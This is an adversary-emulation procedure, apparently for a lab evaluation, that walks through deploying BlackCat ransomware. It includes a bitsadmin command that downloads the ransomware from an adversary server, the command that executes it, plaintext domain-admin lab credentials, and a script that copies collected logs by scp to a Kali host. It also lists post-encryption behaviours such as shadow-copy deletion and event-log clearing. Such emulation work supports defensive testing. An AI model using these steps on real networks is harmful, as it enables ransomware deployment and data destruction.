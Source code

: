   - `BlackCat` excludes some directories, filenames, and file extensions from
  encryption
  - Encrypted files are appended with `.skyfl2e` at the end the filename. Ex.
  "[original filename].[extension].skyfl2e"
  - `BlackCat` will drop ransom notes in directories containing encrypted files
- After encryption, `BlackCat` will:
  - Change wallpaper for logged-in users to image of ransom note
  - Unmount previously mounted partitions
  - Delete volume shadow copies again
  - List and clear Windows Event logs via API calls

### ☣️ Procedures

* Open `cmd.exe` (or use an existing cmd.exe running as `zorimoto`) and execute `BITSAdmin.exe` to download
BlackCat (Windows) to the bastion host `kimeramon (10.20.20.11)` from the
adversary server
  ```
  bitsadmin /transfer defaultjob6 /download http://the-inator.com/digirevenge/digirevenge.exe %TEMP%\digirevenge.exe
  ```

* Search for `cmd.exe` then right-click and Run As Administrator to open a new
Command Prompt, providing the Domain Admin B credentials `ykaida.da`
when prompted:

  | Username | Password |
  | -------- | -------- |
  | ykaida.da | FWy9aXyXbYrbxFcE! |

* Using the new `cmd.exe` with `ykaida.da` privileges, execute
BlackCat (Windows)
  ```
  C:\Users\zorimoto\AppData\Local\Temp\digirevenge.exe --access-token 15742aa362a84ba3
  ```

#### Verifying BlackCat (Windows) Logs
* :arrow_right: Return to your RDP session to the Windows jumpbox `homelander (116.83.1.29)`

* :arrow_right: From the Windows jumpbox, initiate an RDP session to `blacknoirmon (10.20.10.4)` Subsidiary B Domain Controller as `digirevenge\evals_domain_admin`:
  | Username | Password |
  | -------- | -------- |
  | digirevenge\evals_domain_admin | axi9eengei9inaeR@ |

* Open an admin PowerShell prompt and execute the following to fetch the BlackCat logs from affected Subsidiary B hosts, zip them up into a single archive, and SCP the archive to the Kali server:
  ```
  $path="C$\Windows\System32\clog.xtlog";
  $destDir="C:\Users\evals_domain_admin\sblogs";
  $zipPath="C:\Users\evals_domain_admin\sblogs.zip";
  mkdir "$destDir" -force | Out-Null;
  $hosts=@("10.20.10.4", "10.20.10.200", "10.20.10.23", "10.20.10.122", "10.20.20.11", "10.20.20.22", "10.20.20.33");
  foreach ($targhost in $hosts) {
      $logPath = "\\$targhost\$path"
      if (Test-Path "$logPath") {
          Write-Host "[INFO]  Fetching log file on $targhost";
          cp "$logPath" "$destDir\$targhost.log" -Force;
      } else {
          Write-Host "[ERROR] Failed to find log file on $targhost";
      }
  }
  Compress-Archive -Path "$destDir" -DestinationPath "$zipPath";
  scp "$zipPath" op1@176.59.1.18:/tmp/sblogs.zip;
  Remove-Item -Recurse -Force "$destDir";
  ```